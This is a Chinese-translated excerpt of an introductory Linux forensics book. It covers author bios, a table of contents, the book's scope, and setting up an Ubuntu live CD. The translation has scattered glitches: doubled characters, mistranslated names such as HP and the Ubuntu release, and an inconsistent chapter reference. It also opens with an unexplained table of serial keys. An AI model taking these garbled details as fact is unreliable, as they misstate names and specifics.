# UNIX and Linux 取证分析 DVD 工具包


# 密钥 | 序列号

| 密钥 | 序列号 |
| :--- | :--- |
| 001 | HJIRCV764 |
| 002 | PO987D5FG |
| 003 | B829KM8NHJ |
| 004 | BAL923457U |
| 005 | CVPLQ6WQ03 |
| 006 | BPV96ST6TS |
| 007 | HJJ863WD3E |
| 008 | 2987GTVTMK |
| 009 | 629MP55DJ |
| 010 | IMWQ29526T |


1 2 3 4 5 6 7 8 9 0


# 合著者

**Chris Pogue** 是某大型信息技术服务提供商的事件响应经理和取证分析师。凭借十多年的管理和安全经验，他在全球范围内处理过案例，协助从财富500 强公司到单主经营的小型企业在其基础设施中实施深度防御。在成为取证分析师之前，Chris 曾在同一服务提供商的伦理黑客团队工作了五年。他被赋予的任务模拟恶意攻击者的行为，帮助客户识别并消除可能的攻击向量。通过将这些知识和经验应用于事件管理团队，Chris 专注于涉及入侵和未经授权访问的事件。

Chris 曾是美国陆军军尉官（信号兵兵），任职于陆军预备役信息作战司令部（ARIOC）的联合任务部队（JTF）。


# 附录贡献者

Michael Cross (MCSE, MCP+I, CNA, Network+) 是尼亚加拉地区警察局的一位互联网专家/程序员。在设计和维护尼亚加拉地区警察局网站（www.nrps.com）和内网之外，他还在编程、硬件、数据库管理、图形设计和网络管理领域提供支持并开展工作。2007 年，他因开发了一套用于跟踪尼亚加拉地区高风险罪犯和性犯罪犯的系统而荣获警察表彰。作为为 1000 多名平民和制服用户提供支持的信息技术团队的一员，他的理论是：当用户携带武器时，他们解决问题的动力会更强。

Michael 是尼亚加拉地区警察局历史上首位计算机取证分析师，在五年时间里，他对涉及刑事调查的计算机进行了计算机取证检查。他用于寻找证据的计算机涉及多种犯罪，包括杀人案、诈骗和持有儿童色情物品。此外，他还成功通过电子手段追踪了许多个人，例如涉及恐吓信的案件。他曾为许多与计算机相关/网络犯罪的案件提供咨询和协助，并在刑事审判中担任计算机专家证人。

Michael 此前担任过互联网、Web 开发、编程、网络和硬件维修等在线 IT 培训课程的讲师。他在提供和协助关于网络安全以及与其他计算机和互联网相关的主题的演示方面也经验丰富。尽管拥有这些演讲经验，但他仍然发现他的妻子不听他的话。

Michael 还拥有 KnightWare，该公司提供 Web 设计等计算机相关服务；以及 Bookworks，该公司提供商品的在线销售。他担任自由作家已多年，作品在多部书籍和选集上发表过三十多次。


# 第4章 初始分查与现场响应：数据分析 ...... 71
引言 ...... 72
初始分查 ...... 72
日志分析 ...... 74
zgrep ...... 76
Tail ...... 76
More ...... 76
Less ...... 77
关键字搜索 ...... 77
strings/proc/kcore -t d > /tmp/kcore_outfile ...... 78
文件名和目录名 ...... 79
IP地址和域名 ...... 80
工具关键字 ...... 80
行业技巧 ...... 82
用户活动 ...... 86
Shell历史记录 ...... 86
已登录用户 ...... 87
网络连接 ...... 89
运行进程 ...... 92
打开的文件句柄 ...... 95
总结 ...... 98


# 第6章 /Proc 文件系统 ...... 153
引言 ...... 154
cmdline ...... 155
cpuinfo ...... 155
stats ...... 156
driver/ ...... 156
filesystems ...... 156
symbols ...... 157
core ...... 157
modules ...... 158
mounts ...... 158
partitions ...... 159
sys/ ...... 159
uptime ...... 159
version ...... 159
进程 ID ...... 159
cmdline ...... 160
cwd ...... 161
environ ...... 161
exe ...... 161
fd ...... 161
loginuid ...... 162
综合运用 ...... 162
sysfs ...... 162
modules ...... 166
block ...... 166

 166

# 第7章 文件分析 ...... 169
Linux启动过程 ...... 170
init 和运行级别 ...... 171
系统和安全配置文件 ...... 173


## 第8章 恶意软件 ................................................................................................. 183
- 引言 ....................................................................................................................... 184
- 病毒 .......................................................................................................................................... 185
- 地平线上的风暴 ................................................................................... 188
- 使用 Panda 和 Clam 动手实践 ................................................................ 190
- 下载 Panda 病毒软件 ................................................................... 193

## 附录 在 Windows 和 *nix 上实实现网络犯罪检测技术 .......................... 195
- 引言 ................................................................................................................... 196
- 安全审计与日志文件 ...................................................................... 197
- Windows 平台的审计 ................................................................... 199
- UNIX 和 Linux 平台的审计 .................................................... 206
- 防墙日志、报告、警报和警告 ........................................ 208
- 商业入侵检测系统 ............................................ 211
- 入侵检测系统的特征 ................................ 212
- 商业 IDS 厂商 ................................................................... 217
- IP 欺骗和其他反检测战术 ................................ 218
- 蜜罐、蜜罐网络和其它“网络诱捕” ................ 220
- 总结 .......................................................................................................................... 223
- 常见问题 ....................................................... 226


## 第1章


本章包含内容：
- 历史
- 目标读者
- 涵盖的内容
- 不涵盖的内容

# 第1章 • 引言

## 历史

2007年，我完成了Capella 大学的信息安全硕士学位。作为一名职业事件响应分析师，我认为撰写一篇关于 UNIX 取证分析的论文是一个很好的课题，既符合我的工作职责，也符合我的课程学习。考虑到 Harlan Carvey 是我的同事，你可能会认为我只会写一些关于 Windows 取证的内容并向他寻求帮助。然而，这是我的论文，我想做一些能挑战自己的事情，因此我选择了撰写关于 UNIX 取证分析的论文。

在经过大约一天的研究后，我发现我原来的范围必须大幅缩小。这是由于 UNIX 取证这一概念本身非常庞大，而且在任何地方（至少我能找到的地方）都没有关于它的内容。我确实发现了一些由 Barry Grundy¹、Mariusz Burd² 和 Holt Sorenson³ 编写的非常棒的文章和白皮书；我发现在像《事件响应：调查计算机犯罪》、Davis、Philipp 和 Cowen 写的《黑客攻防：计算机犯罪：取证》以及 Casey 写的《数字证据与计算机犯罪：取证科学、计算机与互联网》等书中也有相关章节，但没有完全专注于 UNIX 的内容。

在我写论文时，我并不知道存在多少 UNIX 变体。我个人知道的我处理过 Solaris、AIX、HP-UX、BSD、Tru64 以及多个版本的 Linux，包括 Ubuntu、Fedora Core、Red Hat、Gentoo、SUSE 和 Knopp。现在，写一本包含所有这些变体以及所有可能的架构和命令结构的书简直是不可行的，因此我选择了一个，并坚持下去。本书专门涵盖了 Linux 2.6.22-14 内内核，我们所有的示例要么是用 Ubuntu 7.10 Gubby 制作的，要么是使用 Fedora Core 8。然而，如果你已经以任何形式接触过 UNIX 足够长的时间，你就可以使用我们在书中使用的完全命令结构，或者进行轻微的调整。

在完成论文后，我长时间地思考了 UNIX 取证领域存在的知识空白。你可以阅读白皮书，或者加入 CFID 或 HTCIA 的某个邮件列表，或者加入 SMART 论坛，这些地方非常有参考价值，但没有在一个地方提供你所需的所有信息。此外，如果你

1 http://www.linuxleo.com/
2 http://www.securityfocus.com/infocus/1769
3 http://www.securityfocus.com/infocus/1679


是一个彻头彻尾的新手（n00b），你可能会觉得问诸如“我该如何使用 `dd`？”和“我如何在 UNIX 中看到我的外部硬盘？”这样的问题很愚蠢。

因此，我决定需要一本面向 Linux 取证的书。我开始从 Harlan、Cory Altheide、Todd Haverkos、Sam Elder、Barry Grundy、Mariusz Burdach、Andy Rosen 和 Rick Van Luvender 等同事那里收集关于这本书应该长什么样子的信息。我从这些信赖的同事和朋友那里得到了非常棒的反馈，并开始编写我自己的书。Cory 和 Todd 非常喜欢这个想法，以至于决定加入，对此我不胜感激。没有他们，我永远无法准时完成稿，，书也不会有这么强大。

## 读者

由于 Windows 的广泛普及，我作为全职分析师遇到的事件中，约 80% 是严格基于 Windows 的。与 Harlan、Cory 以及执法部门的几位同事讨论后，这些数字在范围内是非常一致的。底线是，只有 20% 的案件涉及某种 UNIX 变体。这些数字是估计值，我没有真实的数据支持。根据你的工作方式和内容，这些数字可能会有所不同，但在与企业和执法社区的取证人员交流时，它们通常是准确的。

考虑到你正在阅读这本书，可以假设你遇到了那 20% 的案件——你对作为操作系统或取证调查部分的 Linux 几乎没有经验。别恐慌，这本书是为你准备的！

我意识到你可能不符合这些标准，即你还没有遇到案件，正在为了不可避免的未来而做准备；或者你已经熟悉不同版本的 UNIX，处理过几个案件，正在寻找一些新知识来让自己成为一名更好的调查员。如果是这种情况，这本书有非常棒的信息可以提供给你，你可能想直接查看第 5 章“破解 Top 10”和第 6 章 /proc”。

## 涵盖的内容

如果你对 Linux 有任何了解，你就知道有很多命令可以完成相同的任务。借用 Perl（一种具有悠久历史的非常流行的脚本语言）的格言：“事情有多种实现方法。”它是可能的


## 第 1 章 • 引言

没有两个人会以相同的方式做同样的事情却获得相同的结果。我们通常使用自己认为最快、最简单的方法来完成当前的任务。我们理解你可能会发现一种更适合自己的方法，如果是那样的话，请尽管采用，并请告诉我们，以便我们可以在本书后续的修订中将其纳入。

在本书的第 2 章中，你将学习 Linux 下最常用的文件系统、磁盘架构是如何配置的，以及操作系统（从底层）如何与内核交互的。这包括：

- Linux 发行版
- 启动 Linux 系统
- Shell 壳壳
- Linux 中的磁盘和设备
- 文件系统结构和路径
- 文件系统格式
- 日志
- 守护进程 (Daemons)

在本书的第 3 章中，你将学习如何使用 Linux 取证系统从 Linux 系统中获取易失性和持久化数据。这包括：

- 连接到目标机器
- 找到用于传输镜像的外部硬盘
- 挂载用于传输镜像的外部硬盘
- 收集易失信息
- 使用 `dd` 命令创建取证镜像
- 使用消息摘要 5 (MD5) 验证你的信息
- 以符合取证规范的方式维护数据

在本书的第 4 章中，你将学习如何分析已获取的数据。这包括对以下内容的分析：

- 谁登录了系统
- 哪些进程正在运行
- 哪些端口是开启的，它们正在与哪里通信
- 打开的文件句柄
- 打开的传输控制协议 (TCP) 钩
- 关键字搜索

在本书的第 5 章中，你将学习 Linux 黑客攻击中最常用的 10 种工具，无论是作为启动点还是目标。你还将学习这些工具安装后的样子、如何使用，以及它们可能会留下什么种痕迹。黑客工具 Top 10 是：

- nmap
- nessus
- netcat
- nikto
- Kismet
- wireshark
- metasploit
- paros
- hping2
- ettercap

在本书的第 6 章中，你将学习 `/proc` 文件系统以及在关机之前必须从中收集的哪些重要数据。这包括：

- 磁盘和分区信息
- 内核符号
- 物理内存副本
- 所有内核模块
- 关于运行进程的大量信息

在本书的第 7 章中，你将学习应该分析的各种文件类型以及如何分析它们。这些文件包括：

- 系统和安全配置文件
- Init 和运行控制脚本
- Cron 任务
- 隐藏文件和隐藏位置
- 识别其他具有调查价值的文件

在本书的第 8 章中，你将学习 Linux 中存在的恶意软件以及它们留下的什么类型的签名。这包括：

- 病毒
- 蠕虫
- 木马
- 泛洪攻击者 (Flooders)

## 不涵盖的内容

显然，由于本书页数有限，而信息几乎无穷无尽，我们必须将重点集中在我们认为最能涵盖真正入门级书籍理念的内容上。请记住，我们理解可能某些项目你可能希望有更详细的介绍，或者你可能希望看到某些未被提及的内容。如果是那样，请告诉我们！我们希望下一本书不仅包含更多与 Linux 相关的更困难的取证概念，还包含任何你作为读者认为重要的内容。

可加载内核模块原本是我们大纲的一部分，但当我们开始动笔写作时，很明显这不是一个容易涵盖的主题，并且可能会导致一个极其细微、技术性强的章节，超出了本书的范围。鉴于此，我们决定从书中删除可加载内核模块，希望将它们包含在我们的下一书中。

类似地，内存分析也因为其复杂性被留在了本书之外。我读过 Mariusz Burdach 4,5 的文章，并与他讨论过如何最好涵盖这一概念。

4 http://www.securityfocus.com/infocus/1769
5 http://www.securityfocus.com/infocus/1773

虽然我们可能可以从高层面上涵盖这一内容，但 Cory、Todd 和我认为，如果不撰写该章节之前加入大量的背景信息作为引言，我们就无法写出这一章。

尽管我们在第 6 章中涵盖了黑客 Top 10，但我们还有许多关于攻击签名的额外额外技巧和提示，这些在第一本书中无法包含。我们最初的理念是在实验室中进行几次常见攻击，对攻击进行足迹追踪，然后向读者展示我们做了什么、怎么做的，以及留下了什么痕迹。例如，缓冲区溢出在日志中长什么样？如何判断一个主机是否被用作僵尸攻击其他主机？反向绑定 shell (reverse bind shell) 看起来是什么样的，或者它去了哪里？这些是我们想要回答的问题，但再次受限于时间和篇幅。我们的目标是在未来的著作中提供这类材料，敬请期待！

以本书为指南，即使在 Linux 系统方面的经验有限，也能够连接到 Linux 目标，收集易失和持久化数据，并对数据进行全面的取证分析。虽然本书并非无包不，但它确实包含了非常有价值的信息，可以推动读者取得远超他们如果不读这本书所能实现的成就。

我们诚心希望读者发现这本书很有用，并且它能帮助激发学习更多 Linux 取证的欲望。我们在该项目期间的目标是为取证社区提供一本入门书籍，以最初级的调查员也能易于理解的方式解释 Linux 取证的许多细节，同时也为经验更丰富的调查员提供新技巧。如果你认为自己是一个专家，那么这本书可能不适合你。只要我们卖出足够的书，并且出版社允许我们编写，我们的下一本书将涵盖高级取证技术，这将为专家提供最大的价值。

我们希望你喜欢《UNIX Forensic Analysis: The Linux Kernel》，就像我们喜欢写它一样。如果你对本书有任何意见或问题，请随时与我们联系。

## 第 2 章



本章解决方案：

- Unix, UNIX, Linux 和 *nix*
- Linux 安全模型亮点
- *nix 文件结构
- 文件系统

## 引言

“所以我到底该对这个怎么办？”也许有人把一台基于 *nix 的电脑放在了你的桌子上进行分析。不要感到难过。我们也经历过这种时刻，或者看到同事面对陌生系统时的样子。对于大多数首次、有时也是唯一的计算经验来自 Windows 世界的人士来说，使用或调查 Linux 的前景是非常令人生畏的。

## Unix, UNIX, Linux 和 *nix

你正确地注意在本章和本书其他地方这些相关术语的“字母汤”。在讨论广义的“Unix 及类 Unix 操作系统”时，都会遇到这些词。

这是一个与微软控制的 Windows 定义完全不同的思维方式。没有单一供应商设定标准并主导，在 *nix 世界中，选择随处可见。

困难在于 UNIX* 现在是一个严格的商标，并由 Open Group 托有的¹。而“Unix”另一方面是一个非商标词，通常指我们在书中使用的松散含义，即：

¹ www.unix.org/what_is_nix.html


# 理解 Unix • 第 2 章

……指的是遵循特定设计哲学的操作系统。而“Linux”是一个极其流行的免费的类 Unix 操作系统，它根据 Unix 的哲学设计，但实际上它并不是一个真正符合 Unix 哲学的标准实现。*nix* 的历史非常丰富、错综复杂且混乱，以至于我们无法呈现一个全面的面貌。了解“System V”*nix 的血统与源自伯克利软件发行版（BSD）血统之间的区别，对于理解为什么命令似乎永远没有相同的开关和选项（-ef 与 ps -aux）非常有帮助。如果你想查看所有 *nix 变种的族树，可以花几分钟时间浏览 www.levenez.com/unix/ 上的图表，只需寻找 Linux 在何处。

虽然这些区别让你感到头疼，但好消息是，这些术语对你的日常工作并不重要，尽管熟悉历史无疑会很有帮助。为了处理所有这些细节，我们将遵循其他作者的做法，避免使用笨拙的商标名称，也避免使用“Unix-like”这种连字符组合，而在指代 Linux 或符合标准的操作系统时，我们将这一堆 Unix 及其朋友统称为“*nix”。

另一个好消息是，只要具备一些基本的 Linux 技能，你就能开启一个更广泛的领域，那里有许多专利和免费的 *nix 实现在等着你。了解 Linux 及其术语将帮助你在在使用以下流行的 *nix 操作系统时感到如如家。其中有些你可能听说过，即使没有亲身接触过。按照可能遇到概率的粗略顺序排列，你可能在工作中的某时候看到的 *nix 操作系统有：

- Linux，我们最好的朋友，提供色彩丰富的发行版。
- Apple OS X，很少有人知道在所有这些精美界面背后运行着一个基于 FreeBSD 的完全符合标准的 Unix 系统。尝试“实用工具”文件夹中的终端（Terminal）应用程序并拥抱 Unix 的美好。
- Solaris，来自太阳微系统公司。
- HP-UX，来自惠尔罗普。
- AIX，IBM 的 Unix 变体。
- Tru64，现在通过 Compaq DEC 归惠尔罗普所有，其早期生命被称为 Digital Unix。
- FreeBSD、OpenBSD，源自伯克利遗产的免费开源 *nix。

# 第 2 章 • 理解 Unix

而且，从历史角度来看，这些遗产仍然活跃良好：

- UNIX System V ("System 5")，又名 SVR5，来自 AT&T，后来成为 SCO UnixWare。
- 伯克利软件发行版 (BSD) UNIX，在许多变体中仍然活跃。

在 *nix shell 提示符下度过一段时光后，窗口将变得不再陌生：你一眼就了！我很兴地报告，这些 *nix 朋友在设计上都非常精英，远非粗俗。在你介绍 *nix 的过程中，我们也会尽力防止你说出太多的脏话。

## Linux 发行版

就像讨论拥有众多参与者的 *nix 一样，即使 Linux 本身也有丰富的选择，无论好坏。Linux 有多种不同的版本，体现了使用该操作系统的人们的多样性，他们利用其开源特性进行调整和创建，以创建一个以自己的方式解决问题的 Linux。

一些常见的 Linux 发行版包括：Ubuntu（我们本文的选择）、Red Hat Enterprise (RHEL)、Fedora、SUSE Linux Enterprise (Novell)、OpenSUSE、Gentoo、Debian、Mandriva 以及数百种其他版本。如果你想关注免费开源发行版，当你第一次访问 http://distrowatch.com/ 时可能会惊讶得掉下巴。

所有发行版都实现了 Linux 内核，在命令行提示符下你将在所有版本中体验到相似的内容。发行版之间的不同之处在于默认安装中包含哪些软件、如何将软件包添加到系统、默认使用什么窗口管理器用户界面（GUI）（如果有的话）以及关于稳定更新的发布哲学。

对于取证工作来说，意识到有不同的版本很有用，而且程序、日志和配置文件的位置在不同的 Linux 发行版之间也不同。“完成某件事不止一种方法”的格言在 Linux 中仍然适用。

## 获取一个 Linux！

是时候让手指离开键盘了！不需要被所有的选择所击垮——只需获取一个 Ubuntu Linux 副本。Ubuntu 之广受欢迎，是因为它是最容易安装的，而且它的安装 CD 还是所谓的“活动光盘”（Live CD）——你甚至不需要安装就可以尝试。


整个操作系统可以从 CD 驱动器启动，你完全不需要担心硬盘上的 Windows 安装受到任何影响。

所以，浏览 http://ubuntu.com/ 并顺着直觉找到下载部分，我们就可以拿到 Linux 了。在此时，http://www.ubuntu.com/getubuntu/downloadmirrors 提供了全球范围内下载点的列表，可以免费获取最新的 Ubuntu Linux 发行版。如果你带宽受限，只要愿意等待长达 10 周下载，Ubuntu 会为你寄送免费的 CD 或 DVD。不过，下载软件很容易的。查看 Ubuntu 页面 2.1 显示了你将在哪里选择默认设置。

**Ubuntu 页面 - 默认设置**



# 第 2 章 • 理解 Unix

下载将以 .iso 文件的形式出现。ISO 文件是磁盘镜像。不要犯尝试刻录 .iso 文件本身这种初级错误。如果你电脑自带了 OEM CD 刻录程序，那么事情就很简单了。例如，IBM/联想 Thinkpad 就带了类似的程序。这就是 Nero 可能会称呼的。见图 2.2。

## 从 LiveCD 启动 Ubuntu Linux

一旦你将 ISO 镜像正确刻录到 CD-ROM 上，将其插入电脑的 CD-ROM 驱动器并重启。

如果你最终回到了 Windows，很可能是你的基本输入输出系统（BIOS）将硬盘的优先级设置为高于 CD-ROM。快速调整 BIOS 设置即可修复该问题。当你启动电脑时，通常在启动时的第一个闪屏处按下 F2 或 DEL 或启动时提到的其他按键，即可进入 BIOS 配置。在 Boot（启动）选项下，你可以修改计算机搜索可启动媒体的顺序。阅读屏幕上的说明如何更改顺序（对于 Phoenix BIOS，使用右方向键进入 Boot 菜单，向下移动到 CD-ROM 设备并按下 Shift 和 1）。这是一个让 Ubuntu LiveCD 在硬盘操作系统之前启动的启动顺序示例（见图 2.3）。

| Main | Advanced | Security | Power | Boot | Exit |
| --- | --- | --- | --- | --- | --- |
| | Removable Devices | | | | Item Specific Help |
| | CD-ROM Drive | | | | 查看或配置设备的按键：<Enter> 展开或折叠带有 + 或 - 的设备 <Ctrl+Enter> 展开所有 <Shift+> 启用或禁用设备 <> 和 > 移动设备向上或向下 <n> 在硬盘或可移动磁盘之间移动设备 <> 删除未安装的设备。 |
| | Hard Drive | | | | |
| Network boot from AMD Am7C970A | | | | |
| F1 Help | T Select Item -/+ Change Values F9 Setup Defaults | | | |
| Esc Exit | <-- Select Menu Enter > Sub-Menu F10 Save and Exit | | |

**2.3 你需要更改启动顺序以便 CD-ROM 在硬盘之前启动**



如果你没有 OEM 刻录软件，不要担心。只需从 http://isorecorder.alexfeinman.com/isceptor.htm 获取 ISO Recorder Power 的副本即可。


# 第2章 • 理解 Unix

## 图 2.4 Ubuntu 启动选项



你选择默认选项并按回车键启动 Ubuntu。现在，在启动时盯着一个漂亮的图形启动屏并不像 Linux 风格，所以按下 Alt-F1。你将看到控制台启动信息，它们会非常详尽地描述启动过程中正在发生的情况。这里是一个示例（见图 2.5）。

## 图 2.5 在启动期间按下 Alt-F1 显示控制台消息

| Loading Kernel modules... | [ OK ] |
| Loading manual drivers... fsck 14.0.2 (12-Jul-2007) | [ OK ] |
| Mounting local filesystems... | [ OK ] |
| Activating enable swap... | [ OK ] |
| Checking file system on /tmp/ | [ OK ] |
| Configuring network interfaces... | [ OK ] |
| Setting up config font and keymap... | [ OK ] |
| ubuntu 2.6.22-generic #1 SMP Nov Oct 14 23:05:12 GMT 2007 i686 | [ OK ] |

此 Linux 系统中包含的程序是免费软件；每个程序的详情请参见 /usr/share/doc/~/copyright 下的各个文件。
在适用法律允许范围内，ubuntu **不提供任何形式的保证**。
如需以管理员（用户 "root"）身份运行命令，请使用 "sudo <command>"。详情请参阅 "man sudo_root"。

| Loading ACPI modules... | [ OK ] |
| ubuntuubuntu: $ Starting ACPI services... | [ OK ] |

理解 Unix • 第2章

当我们完成所有操作后，Ubuntu 会在不提示输入密码的情况下直接将你带入漂亮的 Gnome 窗口管理器（见图 2.6）。

## 图 2.6 Ubuntu 7.10 默认桌面



此时，你可以随意点点并尝试一些预装的应用程序。现在，在控制台提示符飞速滚动的消息中，你可能注意到 Ubuntu 正在执行各种精彩操作：检测你的硬件、启动 X11 服务器以便我们可以从命令行提示符的文本世界跳转 Gnome 窗口管理器。

X11 和窗口管理器的概念也不同于 Windows 世界。在 Windows 中，图形子系统与操作系统密切绑定，如果不经过大量的设置，你无法直接启动到 DOS 提示符。在 *n 中，启动到绿色屏幕登录提示符的传统在非常好地隐藏了 99% 的情况。在 *n 中，图形化显示和窗口化界面是操作系统核心功能的附加组件。X11 为执行位图图形提供了基础，并为创建窗口和与鼠标交互提供了应用程序编程接口（API）。另一方面，窗口管理器运行在 X11 之上，它是你桌面外观和感受的来源，包括启动程序的菜单、窗口关闭图标和窗口边框的样子、点击工作区时鼠标右键的作用，以及此类内容。

尽管这对于 Windows 用户来说可能很新奇，但在 *n 的窗口管理器中有很多选择。想象一下在 Windows XP 中，如果你再也不想看到“开始”按钮，或者你想要一个拥有多个工作区的桌面，这样你可以将所有与 mp3 媒体程序相关的窗口保留在一个桌面工作区，而将工作应用程序放在另一个工作区。或者，假设你想重新映射 Alt-F4 来执行除窗口以外的操作。通过 *n 中不同管理器的选择（或你所使用的器的配置文件），这些事情都是可能的。Gnome 是 Ubuntu 的默认选择，但如果你想看 KDE 的运行，有一个名为 Kubuntu 的 Linux 发行版将其设置为默认。Fluxbox 是一个非常轻量级的窗口管理器，可以在内存不大的旧硬件上运行。CDE 及其 dtvm 管理器可以在旧的 Solaris 或 HP-UX 服务器上找到。它们的外观和感受略有不同。

如果你有线以太网连接和动态主机配置协议（DHCP）服务器，Ubuntu 肯定已经获取了 IP 协议（IP）地址，如果你启动 Firefox 浏览器，你就可以准备好接入互联网了。到处找找，放轻松吧。毕竟，你不会破坏任何东西，因为你是使用只读 CD-ROM 启动的 Linux。除非你特意双击“安装”图标并回答警告你即将重新格式化硬盘的提示，或者你刻意在文件资源器中浏览到硬盘图标，否则 Ubuntu 不会触碰你的硬盘，更不用更改上面的任何内容。

## Shell（壳）

既然我们在 Linux 中的工作不是为了漂亮的 GUI，让我们花点时间用“终端”（Terminal）应用程序打开一个 shell。Linux Shell 类似于 Windows“命令提示符”的更强大版本（见图 2.7 和 2.8）。

## 2.7 在“应用程序 > 附件”下查找终端程序

